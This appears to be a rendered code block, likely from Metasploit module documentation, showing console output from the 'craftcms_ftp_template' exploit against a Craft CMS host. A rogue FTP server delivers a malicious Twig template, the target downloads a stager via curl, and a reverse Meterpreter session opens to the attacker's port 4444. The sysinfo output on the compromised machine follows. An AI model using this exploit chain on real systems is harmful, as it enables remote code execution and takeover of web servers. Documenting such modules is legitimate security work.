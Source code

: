 ```bash
[*] -> 213 154
[*] on_client_command_mdtm
[*] -> 213 20250110170738
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 213 154
[*] on_client_command_epsv
[*] -> 502 EPSV command not implemented.
[*] on_client_command_retr
[*] -> 150 Opening data connection for /default/index.twig
[*] -> 226 Transfer complete.
[*] on_client_command_quit
[*] -> 221 Goodbye.
[*] Client 172.26.0.2 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 172.26.0.2 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.26.0.2
[*] Meterpreter session 14 opened (192.168.1.36:4444 -> 172.26.0.2:59546) at 2025-01-10 17:07:39 +0100

msf6 exploit(linux/http/craftcms_ftp_template) > sessions 14
[*] Starting interaction with 14...
meterpreter > sysinfo
Computer     : 172.26.0.2
OS           : Debian 12.8 (Linux 5.15.0-130-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
[*] Waiting for FTP client connections...
[*] Shutting down FTP service...
[*] Server stopped.
```
